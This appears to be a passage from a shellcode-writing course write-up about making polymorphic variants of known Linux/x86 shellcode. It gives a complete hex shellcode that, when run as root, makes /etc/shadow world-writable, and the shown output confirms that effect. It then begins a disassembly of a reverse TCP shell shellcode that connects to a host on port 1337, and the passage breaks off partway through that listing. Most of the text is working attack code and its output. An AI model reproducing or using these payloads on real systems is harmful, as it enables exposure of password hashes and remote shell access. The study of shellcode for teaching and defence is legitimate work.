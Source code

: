 Let's try this out!

## Compilation

```sh
$ nasm -f elf32 chmod-poly.nasm 
$ ld -N -z execstack -o chmod-poly chmod-poly.o
$ bash get-shellcode.sh chmod-poly
"\x31\xdb\xb0\x0d\x04\x0a\xcd\x80\x31\xc0\x50\xbb\x65\x67\x71\x78\xb9\x04\x03\x02\x01\x29\xcb\x53\xbb\x67\x32\x75\x69\x29\xcb\x53\xbb\x33\x32\x67\x75\x29\xcb\x53\x89\xe3\x66\xb9\xb6\x01\xb0\x0d\x04\x02\xcd\x80\x40\xcd\x80"
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ ./shellcode 
Shellcode Length:  55
Segmentation fault (core dumped)
$ sudo ./shellcode 
Shellcode Length:  55
$ ls -al /etc/shadow
-rw-rw-rw- 1 root shadow 1123 août  19 22:04 /etc/shadow
```

It works, new size of the shellcode is 55 (148.6% of the original size):
```sh
$ echo "scale=3; 55/37*100" |bc
148.600
```

#  Linux/x86 - Shell Reverse TCP Shellcode - 74 bytes by Julien Ahrens
Source: http://shell-storm.org/shellcode/files/shellcode-883.php

## Original shellcode

The original shellcode is a classic reverse shell as done in the first exercise.

```ASM
*  00000000 <_start>:
*  0:   6a 66                push   0x66
*  2:   58                   pop    eax
*  3:   6a 01                push   0x1
*  5:   5b                   pop    ebx
*  6:   31 d2                xor    edx,edx
*  8:   52                   push   edx
*  9:   53                   push   ebx
*  a:   6a 02                push   0x2
*  c:   89 e1                mov    ecx,esp
*  e:   cd 80                int    0x80
* 10:   92                   xchg   edx,eax
* 11:   b0 66                mov    al,0x66
* 13:   68 7f 01 01 01       push   0x101017f <ip: 127.1.1.1
* 18:   66 68 05 39          pushw  0x3905 <port: 1337
* 1c:   43                   inc    ebx
* 1d:   66 53                push   bx
* 1f:   89 e1                mov    ecx,esp
* 21:   6a 10                push   0x10
* 23:   51                   push   ecx
* 24:   52                   push   edx
* 25:   89 e1                mov    ecx,esp
* 27:   43                   inc    ebx
* 28:   cd 80                int    0x80
* 2a:   6a 02                push   0x2
* 2c:   59                   pop    ecx
* 2d:   87 da                xchg   edx,ebx
*
```